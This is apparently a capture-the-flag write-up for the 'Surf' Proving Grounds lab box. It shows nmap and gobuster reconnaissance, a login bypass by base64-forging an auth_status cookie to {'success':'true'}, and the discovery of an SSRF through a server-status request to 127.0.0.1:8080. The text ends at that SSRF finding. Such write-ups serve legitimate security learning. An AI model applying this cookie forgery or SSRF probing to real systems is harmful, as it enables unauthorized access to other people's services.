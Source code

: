 <h3> Surf Proving Grounds Practice </h3>

### Difficulty = Intermediate

### IP Address = 192.168.126.171

Nmap Scan:

```
─$ cat nmapscan                                 
# Nmap 7.92 scan initiated Sat Mar  4 00:55:39 2023 as: nmap -sCV -A -p22,80 -oN nmapscan 192.168.126.171
Nmap scan report for 192.168.126.171
Host is up (0.43s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Surfing blog
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar  4 00:55:51 2023 -- 1 IP address (1 host up) scanned in 12.43 seconds
```

Checking the web server on port shows this
![image](https://user-images.githubusercontent.com/113513376/222858069-45e0154a-d397-4557-8cae-ae363a1ecd46.png)

Nothing really much there except 2 posts talking about surfing

I ran gobuster on it and found this 
![image](https://user-images.githubusercontent.com/113513376/222858382-93338bcb-363b-4111-8cd0-860a7376e1bf.png)

Going on to /administration shows a login page
![image](https://user-images.githubusercontent.com/113513376/222858175-0b148573-0a6c-4914-80bf-c0223930ba98.png)

Trying default/weak cred doesn't work

So i noticed the request in burp and saw a cookie which caught my attention
![image](https://user-images.githubusercontent.com/113513376/222858228-a991a10f-e8ee-4cf4-9e82-021a59826ab9.png)

```
Cookie: auth_status=eydzdWNjZXNzJzonZmFsc2UnfQ==; PHPSESSID=ie6k33s7t2ahuop2kuqpcm2hc5
```

Decoding the cookie with base64 decode shows its value

```
┌──(mark㉿haxor)-[~/…/B2B/Pg/Practice/Surf]
└─$ echo eydzdWNjZXNzJzonZmFsc2UnfQ== | base64 -d                   
{'success':'false'}     
```

I'll generate a new cookie and replace it with the request cookie

```
┌──(mark㉿haxor)-[~/…/B2B/Pg/Practice/Surf]
└─$ echo -n "{'success':'true'}" | base64                      
eydzdWNjZXNzJzondHJ1ZSd9
```

Now i'll replace it 
![image](https://user-images.githubusercontent.com/113513376/222858627-3610e4b5-733b-44f1-8384-a868f8c44921.png)

And i get logged in
![image](https://user-images.githubusercontent.com/113513376/222858670-d37baf7b-bfe1-49ab-9725-e9aef0949e56.png)

After poking around the web page i got this that we had just few access over some functions

We can create a user and exploit the customers list in form of a csv file
![image](https://user-images.githubusercontent.com/113513376/222859229-c8083690-3f55-4603-9b8a-498371d3dc65.png)

Trying to access the shell console gives an error
![image](https://user-images.githubusercontent.com/113513376/222859558-e5c5d862-3383-48e9-b1d9-d71a50ecb2d4.png)

There's another function called check server status clicking it just shows that the server is running
![image](https://user-images.githubusercontent.com/113513376/222859633-b29c8533-afdd-4a13-a488-1f742dd1520a.png)

Hmmmm lets intercept the request in burp and check what happens when we click the check button
![image](https://user-images.githubusercontent.com/113513376/222859681-c2ac604c-2b2f-480e-ae0d-205823eb0311.png)

Cool we see that its accessing the internal service

```
url=http://127.0.0.1:8080
```

Therefore this is an SSRF vulnerability



